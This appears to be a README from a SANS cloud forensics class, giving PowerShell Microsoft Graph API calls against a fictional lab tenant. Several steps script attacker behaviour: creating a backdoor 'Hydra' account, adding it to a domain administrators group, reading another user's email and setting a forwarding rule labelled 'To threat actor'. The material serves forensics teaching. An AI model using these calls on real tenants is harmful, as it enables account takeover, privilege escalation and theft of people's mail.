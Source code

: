 Graph API is an extremely powerful way to interact with the Microsoft 365 cloud. 

We selected a few of example that you may find interesting and provide the PowerShell code used to generate the Graph API calls.
We hope that you can use this code to learn more about Graph API and leverage its power in your own environment.

To issue these Graph API calls, you must have an existing approved application defined as well as an associated secret (ie. password).


### Explore the Graph API


***Install the authentication library PowerShell module***

    Install-Module -Name MSAL.PS -RequiredVersion 4.2.1.3 -Scope CurrentUser
    
For more information, see https://www.powershellgallery.com/packages/MSAL.PS/4.2.1.3

***Request a token***  

Prior to issuing a Graph API call, you must request a token. This code will be at the start of your session and must be re-issued once the token expires.

    $tenantId = "<name of your tenant>"
    $clientID = "<application id>"
    $clientSecret = (ConvertTo-SecureString "<application secret>" -AsPlainText -Force )
    $Scope = "https://graph.microsoft.com/.default"
    $authToken = Get-MsalToken -ClientId $clientID -ClientSecret $clientSecret -TenantId $tenantId -Scopes $Scope
    $Headers = @{
            "Authorization" = "Bearer $($authToken.AccessToken)"
            "Content-type"  = "application/json"
		    "Prefer"        = "outlook.body-content-type='text'"
        }   

***Create a user***  

Permissions required: `User.ReadWrite.All` and `Directory.ReadWrite.All`

    $apiUri = "https://graph.microsoft.com/v1.0/users"
    $usr = @{
    "userPrincipalName"="Hydra@pymtechlabs.com"
    "displayName"="Hydra"
    "mailNickname"="Hydra"
    "accountEnabled"="true"
    "passwordProfile"= @{
        "forceChangePasswordNextSignIn" = "false"
        "forceChangePasswordNextSignInWithMfa" = "false"
        "password"="HdrwillNev3rdie!"
        }
    } | ConvertTo-Json
 
    $result = Invoke-RestMethod -Uri $apiUri -Headers $Headers -Method POST -ContentType "application/json" -Body $usr
	$result

***Get list of users***

    $apiUri = "https://graph.microsoft.com/v1.0/users/"
    $response = Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method GET
    $users = ($response | Select-Object Value).Value 
    $users | Format-Table displayName, userPrincipalname, id

Sample output from the FOR509 class. You will need the id of your targeted user for future steps.

    displayName    userPrincipalName          id
    -----------    -----------------          --
    Hank Pym       admin@pymtechlabs.com      675be0f4-2486-4443-bef6-d37d9043ae99
    Hydra          Hydra@pymtechlabs.com      a32bd224-fa32-493f-9301-ca9aeb596fdc
    Janet Van Dyne JVanDyne@pymtechlabs.com   76362af6-e38a-41e7-adab-e21ad7e23a20

***Get list of groups***

    ```
    $apiUri = "https://graph.microsoft.com/v1.0/groups"
    $response = Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method GET
    $groups = ($response | Select-Object Value).Value 
    $groups | Format-Table displayName,id
    ```

Sample output from the FOR509 class. You will need the id of the targeted group.

    displayName           id
    -----------           --
    MFA Users             0727a4c3-ea16-4dcf-a0da-083109e513b5
    EW                    24b27528-e062-467d-a911-8665f10b3c8d
    RescuePlan            2e6b56d6-0136-4d39-9308-322be3ea1801
    AAD DC Administrators a862b324-6af9-4cd1-a8f2-e3289aa8bc9d
    Pym Tech Labs         bce367dd-e1e4-4454-b652-ad846f67c5fb
    All Company           ebb67aa0-3ce5-4e76-a1ce-b74b4b64949f

***Add Hydra@pymtechlabs.com to the AAD DC Administrators group***

    $body = [ordered]@{
    "@odata.id"="https://graph.microsoft.com/v1.0/users/Hydra@pymtechlabs.com"
    } | ConvertTo-Json

    $apiUri = "https://graph.microsoft.com/v1.0/groups/a862b324-6af9-4cd1-a8f2-e3289aa8bc9d/members/`$ref"
	Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method POST -ContentType "application/json" -Body $body

***Get list of Janet's email***  

Permission required: `Mail.Read`

    $apiUri = "https://graph.microsoft.com/v1.0/users/76362af6-e38a-41e7-adab-e21ad7e23a20/messages"
    $response = Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method GET
    $Emails = ($response | Select-Object Value).Value
    $Emails | Select-Object  @{Name = 'From'; Expression = {(($_.sender).emailaddress).name}}, @{Name = 'To'; Expression = {(($_.toRecipients).emailaddress).name}}, subject, hasattachments, isRead

    $Emails | Select-Object -ExpandProperty id

***Create a calendar event in Janet's calendar***  

Permission required: `Calendars.ReadWrite`

    $body = @{
        "subject"="FOR509 Class"
        "body"= @{
        "contentType"="HTML"
        "content"="Enterprise Cloud Forensics and Incident Response"
    }
    "start"= @{
        "dateTime"="2021-08-13T08:00:00"
        "timeZone"="Pacific Standard Time"
    }
    "end"= @{
        "dateTime"="2021-08-17T08:00:00"
        "timeZone"="Pacific Standard Time"
    }
    "location"= @{
        "displayName"="LiveOnline"
    }
    "attendees"= @( @{
        "emailAddress"= @{
	        "address"="JVanDyne@pymtechlabs.com"
		    "name"="Janet Van Dyne"
		}
        "type"="Required"
    }
    )
    "allowNewTimeProposals"= "false"
    "isOnlineMeeting"= "true"
     "onlineMeetingProvider"="teamsForBusiness"
    } | ConvertTo-Json -Depth 100

    $apiUri = "https://graph.microsoft.com/v1.0/users/76362af6-e38a-41e7-adab-e21ad7e23a20/calendar/events"
    Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method POST -ContentType "application/json" -Body $body

***List calendar events***

    $apiUri = "https://graph.microsoft.com/v1.0/users/76362af6-e38a-41e7-adab-e21ad7e23a20/calendar/events"
    $response = Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method GET
    $Events = ($response | Select-Object Value).Value 
    $Events | Format-Table subject,start    

***Create a contact***  

Permission required: `Contacts.ReadWrite`

    $body = @{
        "givenName"="Pierre"
	    "surname"="Lidome"
        "emailAddresses"= @( @{
            "address"="plidome@sans.org"
	        "name"="Pierre Lidome"
        }   
    )
    "businessHomePAge"= "@texaquila"
    } | ConvertTo-Json -Depth 100

    $apiUri = "https://graph.microsoft.com/v1.0/users/76362af6-e38a-41e7-adab-e21ad7e23a20/contacts"
	$response = Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method POST -ContentType "application/json" -Body $body

***List contacts to make sure the new contact was created***
 
    $apiUri = "https://graph.microsoft.com/v1.0/users/76362af6-e38a-41e7-adab-e21ad7e23a20/contacts"
    $response = Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method GET
    $contacts = ($response | Select-Object Value).Value 
    $contacts | Format-Table displayName,businessHomePage,emailAddresses

***Create a message rule to forward Janet's email sent by Hank to Hydra's email***  

Permission required: `MailboxSettings.ReadWrite`

    $body = @{
        "displayName"="To threat actor"
	    "sequence"="2"
	    "isEnabled"="true"
	    "conditions"= @{
	        "senderContains"= @(
	            "admin"
		    )
	    }
	"actions"= @{
	    "forwardTo"= @(
	    @{
	       "emailAddress"= @{
		      "name"="Hydra"
			  "address"="hydra@pymtechlabs.com"
			}
		}
		)
	    "stopProcessingRules"="true"
	}
    } | ConvertTo-Json -Depth 100

    $apiUri = "https://graph.microsoft.com/v1.0/users/76362af6-e38a-41e7-adab-e21ad7e23a20/mailFolders/inbox/messageRules"
    Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method POST -ContentType "application/json" -Body $body

***List rules to verify the new rule was created***

    $apiUri = "https://graph.microsoft.com/v1.0/users/76362af6-e38a-41e7-adab-e21ad7e23a20/mailFolders/inbox/messageRules"
    $response = Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method GET
    $response.value

***Change profile picture (must be less than 100kb)***  

    $UPN="Hydra@pymtechlabs.com"
    $Photo="C:\pictures\hydra.jpg"
    $URLPhoto = "https://graph.microsoft.com/v1.0/users/$UPN/photo/$value" 
    Invoke-WebRequest -uri $URLPhoto -Headers $Headers -Method PUT -Infile $Photo -ContentType 'image/jpg'
